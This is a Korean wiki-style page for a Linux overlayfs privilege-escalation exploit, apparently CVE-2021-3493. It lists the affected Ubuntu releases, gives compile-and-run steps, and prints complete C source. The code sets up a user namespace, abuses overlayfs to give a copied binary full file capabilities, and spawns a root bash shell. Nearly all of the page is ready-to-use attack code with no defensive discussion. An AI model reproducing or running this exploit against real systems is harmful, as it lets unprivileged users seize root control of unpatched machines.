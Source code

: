 <languages   />

영향을받는 버전
---------------

    Ubuntu 20.10
    Ubuntu 20.04 LTS
    Ubuntu 18.04 LTS
    Ubuntu 16.04 LTS
    Ubuntu 14.04 ESM

    Fixed in Linux 5.11

스크린 샷
---------

[800px](FIle:2021-04-21_16.24.30.jpg "wikilink")

튜토리얼 사용
-------------

    gcc exploit.c -o exploit
    chmod +x exploit
    ./exploit

EXP
---

    #define _GNU_SOURCE
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <fcntl.h>
    #include <err.h>
    #include <errno.h>
    #include <sched.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <sys/wait.h>
    #include <sys/mount.h>

    //#include <attr/xattr.h>
    //#include <sys/xattr.h>
    int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


    #define DIR_BASE    "./ovlcap"
    #define DIR_WORK    DIR_BASE "/work"
    #define DIR_LOWER   DIR_BASE "/lower"
    #define DIR_UPPER   DIR_BASE "/upper"
    #define DIR_MERGE   DIR_BASE "/merge"
    #define BIN_MERGE   DIR_MERGE "/magic"
    #define BIN_UPPER   DIR_UPPER "/magic"


    static void xmkdir(const char *path, mode_t mode)
    {
        if (mkdir(path, mode) == -1 && errno != EEXIST)
            err(1, "mkdir %s", path);
    }

    static void xwritefile(const char *path, const char *data)
    {
        int fd = open(path, O_WRONLY);
        if (fd == -1)
            err(1, "open %s", path);
        ssize_t len = (ssize_t) strlen(data);
        if (write(fd, data, len) != len)
            err(1, "write %s", path);
        close(fd);
    }

    static void xcopyfile(const char *src, const char *dst, mode_t mode)
    {
        int fi, fo;

        if ((fi = open(src, O_RDONLY)) == -1)
            err(1, "open %s", src);
        if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
            err(1, "open %s", dst);

        char buf[4096];
        ssize_t rd, wr;

        for (;;) {
            rd = read(fi, buf, sizeof(buf));
            if (rd == 0) {
                break;
            } else if (rd == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "read %s", src);
            }

            char *p = buf;
            while (rd > 0) {
                wr = write(fo, p, rd);
                if (wr == -1) {
                    if (errno == EINTR)
                        continue;
                    err(1, "write %s", dst);
                }
                p += wr;
                rd -= wr;
            }
        }

        close(fi);
        close(fo);
    }

    static int exploit()
    {
        char buf[4096];

        sprintf(buf, "rm -rf '%s/'", DIR_BASE);
        system(buf);

        xmkdir(DIR_BASE, 0777);
        xmkdir(DIR_WORK,  0777);
        xmkdir(DIR_LOWER, 0777);
        xmkdir(DIR_UPPER, 0777);
        xmkdir(DIR_MERGE, 0777);

        uid_t uid = getuid();
        gid_t gid = getgid();

        if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
            err(1, "unshare");

        xwritefile("/proc/self/setgroups", "deny");

        sprintf(buf, "0 %d 1", uid);
        xwritefile("/proc/self/uid_map", buf);

        sprintf(buf, "0 %d 1", gid);
        xwritefile("/proc/self/gid_map", buf);

        sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
        if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
            err(1, "mount %s", DIR_MERGE);

        // all+ep
        char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

        xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
        if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
            err(1, "setxattr %s", BIN_MERGE);

        return 0;
    }

    int main(int argc, char *argv[])
    {
        if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
            setuid(0);
            setgid(0);
            execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
            err(1, "execl /bin/bash");
        }

        pid_t child = fork();
        if (child == -1)
            err(1, "fork");

        if (child == 0) {
            _exit(exploit());
        } else {
            waitpid(child, NULL, 0);
        }

        execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
        err(1, "execl %s", BIN_UPPER);
    }

Github
------

<https://github.com/briskets/CVE-2021-3493>